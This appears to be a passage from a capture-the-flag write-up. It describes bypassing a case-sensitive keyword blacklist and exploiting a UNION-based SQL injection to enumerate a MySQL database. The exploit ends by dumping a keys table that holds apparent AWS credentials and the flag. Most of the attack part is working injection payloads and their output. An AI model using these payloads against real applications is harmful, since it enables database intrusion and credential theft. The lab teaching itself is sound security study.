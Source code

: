 - blacklist = ["0x", "**", "ifnull", " or ", "union"]
- Easy bypass blacklist using case-sensitive.
- ⇒  SQL injection.
1. Narrow down (pinpoint) the number of columns **C** before attempting a **Union Select:**

```bash
testquan' order by 5-- - 
```

<img width="1913" height="941" alt="image 13" src="https://github.com/user-attachments/assets/f6955fad-91e3-4033-b215-afd2544389b6" />  

1. List all table names in current database:

```bash
' Union Select NULL,group_concat(table_name),NULL,NULL,NULL From information_schema.tables Where table_schema=database()-- - 
```

<img width="1915" height="938" alt="image 14" src="https://github.com/user-attachments/assets/c6ec1369-bd74-45fb-b98c-5f231c653d8d" />  

2. List all databases on the server:

```bash
' Union Select NULL,group_concat(schema_name),NULL,NULL,NULL From information_schema.schemata-- - 
```

<img width="1914" height="937" alt="image 15" src="https://github.com/user-attachments/assets/7ec33733-677c-482d-bbc3-fc7df8d060b0" />  

- information_schema,jobs,performance_schema,mysql,sys
3. List all tables inside the **jobs** database:

```bash
' Union Select NULL,group_concat(table_name),NULL,NULL,NULL From information_schema.tables Where table_schema='jobs'-- -
```

<img width="1913" height="936" alt="image 16" src="https://github.com/user-attachments/assets/635270d6-42d9-4982-a908-c2aef68c0510" />  

- profiles,application,role,Users,position,keys_tbl,inventory
4. List the columns of the table **keys_tbl**:

```bash
' Union Select NULL,group_concat(column_name),NULL,NULL,NULL From information_schema.columns Where table_schema='jobs' And table_name='keys_tbl'-- - 
```

<img width="1912" height="938" alt="image 17" src="https://github.com/user-attachments/assets/8ad516ce-5362-48a9-83af-9237ed13fc48" />  

- id,key_name,key_value
5. Dump the entire **keys_tbl** table in the format **id:key_name:key_value**:

```bash
' Union Select NULL,group_concat(id,':',key_name,':',key_value),NULL,NULL,NULL From keys_tbl-- - 
```

<img width="1915" height="937" alt="image 18" src="https://github.com/user-attachments/assets/4ae95023-aa71-4086-9ca4-06eba5f88a60" />  

- 1:AWS_ACCESS_KEY_ID:AKIA3G38BCN8SCJORKFL,\
- 2:AWS_SECRET_ACCESS_KEY:GMTENUBiGygBeyOc+GpXsOfbQFfa3GGvpvb1fAjf,\
- 3:FLAG:**AWS{MySqL_T1m3_B453d_1nJ3c71on5_4_7h3_w1N}**
